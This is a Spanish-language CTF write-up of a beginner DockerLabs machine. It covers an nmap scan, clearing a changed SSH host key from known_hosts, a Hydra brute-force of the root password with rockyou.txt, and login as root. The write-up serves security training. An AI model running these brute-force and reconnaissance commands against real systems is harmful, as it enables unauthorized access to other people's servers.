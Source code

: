 # Write-up - Problemas de SSH y fingerprint

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 25/05/2025  
**Aprendizaje:** Mi cliente SSH guarda "firmas" de servidores a los que me conecto. Si la firma de un servidor cambia (por ejemplo, si la máquina virtual se reinició), SSH se "asusta" y bloquea la conexión por seguridad. Borrando la firma vieja, le doy permiso a SSH para que acepte la "nueva" identidad del servidor, y así poder intentar loguearme.  
RECORDAR: Un "fingerprint" (o huella digital en español), en el contexto de SSH y la ciberseguridad, es como la firma única e irrepetible de una clave criptográfica pública.  
Este ejercicio me permitió entender cómo funcionan las firmas digitales (fingerprints) en SSH, su rol en la seguridad y cómo resolver conflictos al cambiar la identidad de una máquina en entornos de práctica.
También reforcé el uso de Hydra y SSH, y cómo gestionar manualmente el archivo known_hosts para evitar bloqueos durante auditorías o pentesting.

---

## Enumeración y acceso

### 1. Escaneo de puertos

`sudo nmap -sSV -O --open 172.17.0.2`

> Resultado:  

`22/tcp => SSH`  
`Sistema operativo: Linux`

### 2. Intento de conexión por SSH

`ssh -l anonymous 172.17.0.2`

Mensaje de error:  

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@  
    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@  

Offending ECDSA key in /home/kali/.ssh/known_hosts:6  
  remove with:  
  ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'  

Host key verification failed.  

Este error indica que la huella digital de la clave pública del servidor SSH ha cambiado con respecto a la que tu cliente SSH tenía guardada en `~/.ssh/known_hosts`.
Esto es una medida de seguridad contra ataques Man-in-the-Middle. En un entorno de laboratorio, casi siempre significa que la máquina virtual se reinició, se reconfiguró o se restauró.

> En el mismo mensaje obtuve la solución sugerida.

### 3. Limpieza del known_hosts

`ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'`

> Resultado:

 `Host 172.17.0.2 found: line 4`  
 `Host 172.17.0.2 found: line 5`  
 `Host 172.17.0.2 found: line 6`  
`/home/kali/.ssh/known_hosts updated.`  
`Original contents retained as /home/kali/.ssh/known_hosts.old`  

> Explicación del comando:

`ssh-keygen`: Utilidad para gestionar claves SSH.

`-f '/home/kali/.ssh/known_hosts'`: Especifica el archivo sobre el que se va a operar.

`-R '172.17.0.2'`: Remueve todas las entradas asociadas a esa IP.

Esto confirmó que las entradas antiguas fueron eliminadas correctamente.  
Propósito: permitir que SSH acepte la nueva clave pública del servidor objetivo para poder continuar con el ataque.

### 4. Fuerza bruta con Hydra

`hydra -l root -P rockyou.txt -V ssh://172.17.0.2`

> Contraseña encontrada: `estrella`

### 5. Acceso como root

`ssh -l root 172.17.0.2`

> Acceso concedido.  
Usuario: `root`

